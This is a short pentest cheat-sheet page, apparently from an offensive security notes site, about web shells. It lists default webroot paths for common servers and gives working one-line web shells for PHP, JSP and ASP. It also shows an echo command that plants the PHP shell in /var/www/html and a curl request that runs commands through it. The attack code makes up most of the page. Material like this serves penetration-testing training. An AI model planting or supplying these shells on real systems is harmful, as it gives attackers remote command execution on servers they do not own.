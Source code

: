 ```yaml
---
layout: default
title: Web shells
permalink: /web_shells/
---
```


# Web Shell
A Web Shell is typically a web script, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
We need to place our web shell script into the remote host's web directory (webroot) to execute the script. This can be through a vulnerability.
<!--
| Web Server | Default Webroot           |
|------------|---------------------------|
| Apache     | `/var/www/html/`          |
| Nginx      | `/usr/local/nginx/html/`  |
| IIS        | `c:\inetpub\wwwroot\`     |
| XAMPP      | `C:\xampp\htdocs\`        |
-->
<table>
  <thead>
    <tr>
      <th>Web Server</th>
      <th>Default Webroot</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Apache</td>
      <td><code>/var/www/html/</code></td>
    </tr>
    <tr>
      <td>Nginx</td>
      <td><code>/usr/local/nginx/html/</code></td>
    </tr>
    <tr>
      <td>IIS</td>
      <td><code>c:\inetpub\wwwroot\</code></td>
    </tr>
    <tr>
      <td>XAMPP</td>
      <td><code>C:\xampp\htdocs\</code></td>
    </tr>
  </tbody>
</table>
We can check these directories to see which webroot is in use and then use echo to write out our web shell. <br>

[SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages. <br>

*Note: In certain cases, web shells may not work. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. system()), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations.*

## PHP

```
<?php system($_REQUEST["cmd"]); ?>
```
```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
Accessing the web shell:
```
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

One good option for PHP is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. 

## JSP

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP

```
<% eval request("cmd") %>
```




